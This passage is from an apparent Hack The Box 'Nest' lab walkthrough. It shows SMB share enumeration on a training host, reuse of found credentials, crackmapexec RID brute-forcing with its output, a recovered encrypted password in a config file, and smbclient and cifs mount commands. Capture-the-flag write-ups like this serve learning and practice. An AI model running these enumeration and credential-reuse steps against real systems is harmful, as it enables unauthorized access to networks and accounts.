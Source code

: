 - `Marketing` folder is empty
- In the `Welcome Email.txt` we can find some useful informations

1. User home folder `\\HTB-NEST\Users\<USERNAME>`
2. Credentials `TempUser:welcome2019`

- Let's use these credentials
- First we can use these credentials to brute force all RIDs

```bash
$ crackmapexec smb ${IP} -u TempUser -p welcome2019 --rid-brute

SMB  10.10.10.178 445 HTB-NEST   500: HTB-NEST\Administrator (SidTypeUser)
SMB  10.10.10.178 445 HTB-NEST   501: HTB-NEST\Guest (SidTypeUser)
SMB  10.10.10.178 445 HTB-NEST   513: HTB-NEST\None (SidTypeGroup)
SMB  10.10.10.178 445 HTB-NEST   1002: HTB-NEST\TempUser (SidTypeUser)
SMB  10.10.10.178 445 HTB-NEST   1004: HTB-NEST\C.Smith (SidTypeUser)
SMB  10.10.10.178 445 HTB-NEST   1005: HTB-NEST\Service_HQK (SidTypeUser)
```

- Then let's use these credentials to access non accessible Shares on `Data`
- In `Data\IT\Config\NotepadPlusPlus\` there are some configurations
- In particular in `config.xml` we can find these references 

```xml
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
    <File filename="C:\windows\System32\drivers\etc\hosts"/>
    <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt"/>
    <File filename="C:\Users\C.Smith\Desktop\todo.txt"/>
</History>
```

- Referring to files that have been modified recently
- In `Data\IT\Config\RU Scanner\RU_config.xml` we can find some credentials

```xml
<ConfigFile>
 <Port>389</Port>
 <Username>c.smith</Username>
 <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

- Referring to a specified port: 389 (possibly opened on the local host)
- At this point, we also have a Share path `\\HTB-NEST\Secure$\IT\Carl\`
- Let's see if we can access to this path using TempUser

```bash
$ smbclient \\\\${IP}\\Secure$ -U TempUser
smb: \> cd IT\Carl
smb: \IT\Carl\>
```

- We can. At this point we can mount the share locally to examine the content

```bash
$ sudo mount -t cifs -o ro,username=TempUser,password=welcome2019 '//${IP}/Secure$' ./tmp
$ cd tmp
tmp$ cd IT/Carl/VB\ Projects/WIP/RU
tmp/IT/Carl/VB\ Projects/WIP/RU:$ 
```

